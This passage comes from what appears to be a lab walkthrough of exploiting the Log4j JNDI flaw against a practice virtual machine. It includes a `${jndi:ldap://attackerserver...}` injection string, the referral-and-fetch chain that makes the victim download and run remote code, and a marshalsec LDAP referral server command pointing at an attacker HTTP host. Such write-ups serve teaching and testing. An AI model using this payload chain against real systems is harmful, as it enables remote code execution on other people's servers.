 ![](<../../../.gitbook/assets/image (18) (1).png>)

And we see a call back to our netcat listener!

## Exploitation



At this point, we have verified the target is in fact vulnerable by seeing this connection caught in your **`netcat`** listener. However, it made an LDAP request... so all our **`netcat`** listener saw was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP handler.

We will utilize a open-source and public utility to stage an "**LDAP Referral Server**". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so:

1. **`${jndi:ldap://attackerserver:1389/Resource}`** -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary **`http://attackerserver/resource`**
3. The victim retrieves and executes the code present in **`http://attackerserver/resource`**

This means we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000):

* **`python3 -m http.server`**
* **`php -S 0.0.0.0:8000`**
* (or any other **`busybox httpd`** or formal web service you might like)

The first order of business is obtaining the LDAP Referral Server. We will use the **`marshalsec`** utility offered at [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

Ultimately, this needs to run Java. Reviewing the README for this utility, it suggests using Java 8. (You may or may not have success using a different version, but to "play by the rules," we will match the same version of Java used on the target virtual machine)

With marshalsec built, we can start an LDAP referral server to direct connections to our secondary HTTP server

{% hint style="warning" %}
Note: The port for this will be the web server and not the netcat port we are listening on
{% endhint %}

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.20.17:8000/#Exploit"
```
